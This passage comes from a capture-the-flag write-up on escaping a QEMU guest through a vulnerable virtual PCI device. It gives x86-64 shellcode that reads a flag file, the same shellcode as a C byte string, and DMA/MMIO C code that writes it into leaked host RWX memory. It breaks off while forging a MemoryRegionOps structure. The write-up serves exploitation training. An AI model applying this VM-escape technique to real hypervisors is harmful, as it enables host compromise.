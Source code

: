 ```c
*/
```

### Write the shellcode

I choose to write a shellcode to read the flag at `leak_rwx + 0x5000`, a known location we can easily read and print from the program. The shellcode is very simple:

```nasm
mov rax, 2 ; SYS_open
push 0x67616c66 ; flag in little endian
mov rdi, rsp ; pointer flag string
mov rsi, 0 ; O_READ
mov rdx, 0x1fd ; mode ?
syscall
mov rdi, rax ; fd
xor rax, rax ; SYS_read
lea rsi, [rip] ; pointer to the rwx memory area (cause we're executing code within)
and rsi, 0xffffffffff000000 ; compute the base address
add rsi, 0x5000 ; add the right offset
mov rdx, 0x30 ; length of the flag to read
syscall
add rsp, 8; we pushed the flag str so we destroy it
ret ; return to continue the execution
```

To write the shellcode at `leak_rwx + 0x1000`, we can directly trigger a large write primitive:

```c
#define CODE "\x48\xc7\xc0\x02\x00\x00\x00\x68\x66\x6c\x61\x67\x48\x89\xe7\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\xfd\x01\x00\x00\x0f\x05\x48\x89\xc7\x48\x31\xc0\x48\x8d\x35\x00\x00\x00\x00\x48\x81\xe6\x00\x00\x00\xff\x48\x81\xc6\x00\x50\x00\x00\x48\xc7\xc2\x30\x00\x00\x00\x0f\x05\x48\x83\xc4\x08\xc3"

memcpy(dmabuf, CODE, 130);

printf("[*] Writing the shellcode @ %lx\n", leak_rwx + 0x1000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, leak_rwx - addr_obj + 0x1000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, 130);
iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, dmabuf_phys_addr);
iowrite(CLOUDINSPECT_MMIO_OFFSET_TRIGGER, 0x300);
/*
[*] Writing the shellcode @ 7fc604001000
*/
```

### Craft fake MemoryRegionOps structure

To cratf a fake `MemoryRegionOps`, I just read the original `MemoryRegionOps` structure, I edited the `read` handler, and I wrote it back, in a writable memory area, at `leak_rwx+0x2000`. Given that `sizeof(MemoryRegionOps)` is not superior to `DMA_SIZE`, I can read and write in one time. Then we got:
